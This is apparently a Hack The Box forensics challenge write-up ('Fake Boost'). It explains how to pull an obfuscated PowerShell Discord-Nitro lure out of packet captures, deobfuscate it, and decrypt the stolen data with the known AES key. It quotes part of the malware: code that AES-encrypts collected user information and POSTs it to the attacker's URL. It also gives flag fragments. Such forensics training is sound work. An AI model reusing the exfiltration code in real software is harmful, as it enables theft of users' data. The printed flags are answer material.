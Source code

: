 ![img](assets/banner.png)

<img src='assets/htb.png' style='zoom: 80%;' align=left /> <font size='10'>Fake Boost</font>

2<sup>nd</sup> March 2024

Prepared By: `gordic`

Challenge Author(s): `gordic`

Difficulty: <font color='green'>Easy</font>

<br><br>

# Synopsis

- User needs to perform .pcap file analysis. Extract the obfuscated PowerShell script, deobfuscate it, and inside it, he should find the first part of the flag and parameters used for data encryption. They can use tools like CyberChef to decrypt data sent to the attacker's server and get the second part of the flag.

## Description

- In the shadow of The Fray, a new test called "Fake Boost" whispers promises of free Discord Nitro perks. It's a trap, set in a world where nothing comes without a cost. As factions clash and alliances shift, the truth behind Fake Boost could be the key to survival or downfall. Will your faction see through the deception? KORP™ challenges you to discern reality from illusion in this cunning trial.

## Skills Required

- Reading Powershell code/syntax
- Basic deobfuscation
- .pcap file forensics
- AES decryption with known parameters

## Skills Learned

- Analyzing network traffic to extract critical data.
- Deobfuscating PowerShell scripts to uncover hidden logic.
- Utilizing AES decryption techniques to reveal sensitive information.

# Enumeration

When examining the .pcapng file, users should focus on analyzing TCP traffic. Within TCP stream 3, they will encounter the contents of the discordnitro.ps1 malicious script being downloaded by the victim.
<img src='assets/writeup5.png' style='zoom: 30%;'/>
<img src='assets/writeup1.png' style='zoom: 30%;'/>

The PowerShell script requires deobfuscation. The value of the variable $jozeq3n must be reversed and then decoded from Base64 to reveal the malicious PowerShell script.

<img src='assets/writeup2.png' style='zoom: 30%;'/>
<img src='assets/writeup4.png' style='zoom: 30%;'/>
Within this script, users will discover the first part of the flag.
```powershell
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"
```

Besides the flag's first portion, the user must scrutinize the script to deduce that the server's response is encrypted using AES, with both the key and IV being known and utilized in the encryption process.
```powershell
function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}

$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}
```

# Solution

In TCP stream 48, a user can uncover data transmitted from the victim's computer. By leveraging known AES parameters, they can decrypt this data to retrieve the second part of the flag, which resides within the email field.
<img src='assets/writeup6.png' style='zoom: 30%;'/>
<img src='assets/writeup7.png' style='zoom: 30%;'/>
```python
from Crypto.Cipher import AES
import base64

aes_key_base64 = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
aes_key = base64.b64decode(aes_key_base64)

def decrypt_string(encrypted_base64, key):
    full_data = base64.b64decode(encrypted_base64)
    
    iv = full_data[:AES.block_size]
    encrypted_message = full_data[AES.block_size:]
    
    cipher = AES.new(key, AES.MODE_CBC, iv)
    
    decrypted_bytes = cipher.decrypt(encrypted_message)
    
    pad = decrypted_bytes[-1]
    decrypted_bytes = decrypted_bytes[:-pad]
    
    return decrypted_bytes.decode('utf-8')

encrypted_base64 = ""
decrypted_text = decrypt_string(encrypted_base64, aes_key)
print("Decrypted text:", decrypted_text)

```

<img src='assets/writeup3.png' style='zoom: 70%;'/>
